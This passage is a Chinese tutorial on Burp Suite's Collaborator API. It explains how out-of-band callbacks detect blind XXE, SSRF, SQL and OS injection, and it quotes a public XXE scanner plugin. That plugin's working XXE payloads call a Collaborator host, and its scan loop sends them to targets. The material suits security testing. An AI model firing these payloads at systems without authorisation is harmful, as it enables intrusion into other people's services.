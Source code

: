 可以看到此方法与上述方法的区别吗？其区别在于一个是检索单个 payload，另外一个是检索在插件运行中生成的所有 payload 是否被请求。

**fetchInfiltratorInteractionsFor 与 fetchAllInfiltratorInteractions 不常用，不予介绍。**

学习完了三个主要方法之后，我们就可以开始了解一下使用这些方法可以做什么了。我们需要先想想，Burp 的 CollaboratorClient 相当于一个 dnslog，我们一般都用 dnslog 来测试什么呢？

**BLIND XXE、BLIND SSRF、SQL 外带、Blind OS INJECTION 等。**

接下来以 github 的某个 XXE 扫描插件来介绍如何使用此 api 的三个方法实现一个 Blind XXE Scanner。

插件地址：[XXEPlugin.java](https://github.com/yandex/burp-molly-pack/blob/8c9aa5766dcd4b49d3258bf7f3790bd318fe9b7f/src/main/java/com/yandex/burp/extensions/plugins/audit/XXEPlugin.java)

重点关注以下代码：

```plain
public void initXXEPayloads() {
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\"?>\n<!DOCTYPE test [\n<!ENTITY % remote SYSTEM \"http://{collaboratorPayload}/\">\n%remote;\n]><test>test</test>");
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\"?><!DOCTYPE root PUBLIC \"-//B/A/EN\" \"http://{collaboratorPayload}/\"><root>a0e5c</root>");
        XXEPayloads.add("<?xml version=\"1.0\"?><!DOCTYPE foo [<!ENTITY xxe1 \"dryat\"><!ENTITY xxe2 \"0Uct\"><!ENTITY xxe3 \"333\"><!ENTITY xxe \"&xxe1;&xxe3;&xxe2;\">]><methodCall><methodName>BalanceSimple.CreateOrderOrSubscription</methodName><params><param><value><string>&xxe;test</string></value></param><param>x</params></methodCall>");
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE tst SYSTEM \"http://{collaboratorPayload}\">\n<tst></tst>");
    }

    @Override
    public List<IScanIssue> doScan(IHttpRequestResponse baseRequestResponse, IScannerInsertionPoint insertionPoint) {
        IResponseInfo resp = helpers.analyzeResponse(baseRequestResponse.getResponse());
        IRequestInfo req = helpers.analyzeRequest(baseRequestResponse.getRequest());
        if (resp == null | req == null) return null;

        URL url = helpers.analyzeRequest(baseRequestResponse).getUrl();
        if (flags.contains(url.toString())) return null;
        else flags.add(url.toString());

        IBurpCollaboratorClientContext collaboratorContext = callbacks.createBurpCollaboratorClientContext();
        String collaboratorPayload = collaboratorContext.generatePayload(true);
        List<IScanIssue> issues = new ArrayList<>();

        for (String xxe : XXEPayloads) {
            xxe = xxe.replace("{collaboratorPayload}", collaboratorPayload);
            List<String> headers = helpers.analyzeRequest(baseRequestResponse).getHeaders();
            headers.set(0, headers.get(0).replace("GET", "POST"));
            headers.removeIf(header -> header != null && header.toLowerCase().startsWith("content-type:"));
            headers.add("Content-type: application/xml");

            byte[] attackBody = helpers.buildHttpMessage(headers, helpers.stringToBytes(xxe));
            IHttpRequestResponse attackRequestResponse = callbacks.makeHttpRequest(baseRequestResponse.getHttpService(), attackBody);
            List<IBurpCollaboratorInteraction> collaboratorInteractions = collaboratorContext.fetchCollaboratorInteractionsFor(collaboratorPayload);

            if (attackRequestResponse != null && attackRequestResponse.getResponse() != null
                    && collaboratorInteractions != null
                    && (!collaboratorInteractions.isEmpty() || helpers.bytesToString(attackRequestResponse.getResponse()).contains("dryat0Uct333"))) {
                String attackDetails = "XXE processing is enabled at: \n" + helpers.analyzeRequest(attackRequestResponse).getUrl().toString();

```